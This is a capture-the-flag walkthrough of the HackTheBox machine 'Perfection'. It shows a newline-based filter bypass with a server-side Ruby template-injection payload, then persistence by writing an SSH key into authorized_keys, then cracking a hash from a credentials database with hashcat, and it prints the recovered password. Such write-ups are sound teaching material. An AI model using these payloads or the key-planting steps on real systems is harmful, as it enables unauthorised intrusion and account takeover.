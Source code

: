 ```yaml
---
date: 2025-02-16
categories: [CTF, HTB]
title: "HTB - Perfection"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'xss']

description: "Perfection - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Perfection

NMAP

![image1](../resources/6ce18aca78e24775aa1bf582dbea55f5.png)

- On port 80 we get:

![image2](../resources/15189e31d7634540ad15fe4e28cd3ee2.png)

- After trying multiple characters, everything seems to be blocked by an XSS filter


![image3](../resources/9c2f6c871019421b867d497bd70f0b10.png)


![image4](../resources/a6a051d0f4b0472883d9c24f76c03a37.png)

- But then I found the newline character **%0A**

![image5](../resources/b00bdeb602d0400d9630829a7730c405.png)

- Open the request in Burp

- Enter a value for category1 and add the **%0A** and then a 'malicious character'
And now it doesn't seem to block it

- Since this is using Ruby we need to construct Ruby code that gets executed within the \<script\> tags:
```javascript
<script>document.write("<p>Server Hostname: <%= `hostname` %></p>");</script>
```

Now URL encode it:

```js
document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60ls%60%20%25%3E%3C%2Fp%3E%22%29%3B
```

The parameter category1 value will be:
```javascript
one%0A<script>document.write%28%22%3Cp%3EServer%20Hostname%3A%20%3C%25%3D%20%60hostname%60%20%25%3E%3C%2Fp%3E%22%29%3B</script>
```
You must have the **%0A** there


![image6](../resources/4efd277667134a488b10ac067cb598bf.png)

- And we get the hostname back
- XSS is successful

- If we query **id** - we can see that we are user susan

![image7](../resources/d5ed4ab09d284080aa0e4ab09469ff4b.png)

And that she has sudo rights as well


![image8](../resources/924483b9630e4edb8be055c4e6ba8106.png)

- After doing some enumeration on susan's home folder -we get a file with credentials
**/home/susan/Migration/pupilpath_credentials.db**


![image9](../resources/47f58567e5b3413ab0903c70f010def1.png)


![image10](../resources/d50ab97750a8408e837ab868cfb932c2.png)

- We can connect to the box by:
Create a SSH key pair

```bash
chmod 600 id_rsa

```
**<u>In Burp:</u>**

```bash
mkdir /home/susan/.ssh

touch /home/susan/.ssh/authorized_keys

echo "<id_rsa.pub>" > /home/susan/.ssh/authorized_keys

```

```bash
ssh susan@10.129.208.176 -i id_rsa
```
![image11](../resources/e388b7ede795481dabe510f0d22f2fa6.png)

- We find a credentials file and the type of SQL db used:

![image12](../resources/27c7c0a4016f43abb435df233a7c3c2f.png)


![image13](../resources/991240b7c69c47a0a216e211019b7d0a.png)

- This couldn't be cracked using rockyou.txt

- Further enumeration revealed the file:
**/var/mail/susan**


![image14](../resources/2880f75162a843f4a3d72a66b89c3d15.png)

- Create a python script to generate a wordlist
I didn't do the whole range in one go, as the file would have been enormous:


![image15](../resources/ffea34060fa147fa8bb83c1e24f46235.png)


![image16](../resources/e430581d76bb427c9a87ab67cb99378d.png)

- After every generated list I tried it with hashcat:
```bash
hashcat -m 1400 -a 0 hash list

```

![image17](../resources/6c426031790b43fda2a98789fcd6066a.png)

**susan_nasus_413759210**

- And as susan has sudo rights:

![image18](../resources/2ef192ae37bf431f9d2aa08c69c6c5d8.png)